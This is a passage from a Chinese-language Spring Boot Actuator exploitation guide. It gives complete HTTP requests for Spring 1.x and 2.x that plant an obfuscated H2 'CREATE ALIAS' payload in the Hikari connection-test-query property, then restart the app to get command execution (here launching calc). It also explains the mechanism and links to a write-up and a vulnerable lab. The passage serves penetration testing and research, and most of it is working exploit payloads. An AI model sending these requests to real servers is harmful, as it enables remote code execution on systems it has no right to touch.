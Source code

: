 spring 1.x（无回显执行命令）

```php
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.hikari.connection-test-query=CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');
```

spring 2.x（无回显执行命令）

```php
POST /actuator/env
Content-Type: application/json

{"name":"spring.datasource.hikari.connection-test-query","value":"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"}
```

##### 步骤二：重启应用

spring 1.x

```php
POST /restart
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```php
POST /actuator/restart
Content-Type: application/json
```

#### 漏洞原理：

1. spring.datasource.hikari.connection-test-query 属性被设置为一条恶意的 `CREATE ALIAS` 创建自定义函数的 SQL 语句
2. 其属性对应 HikariCP 数据库连接池的 connectionTestQuery 配置，定义一个新数据库连接之前被执行的 SQL 语句
3. restart 重启应用，会建立新的数据库连接
4. 如果 SQL 语句中的自定义函数还没有被执行过，那么自定义函数就会被执行，造成 RCE 漏洞

#### 漏洞分析：

[remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database)

#### 漏洞环境：

[repository/springboot-h2-database-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-h2-database-rce)

正常访问：

```php
http://127.0.0.1:9096/actuator/env
```
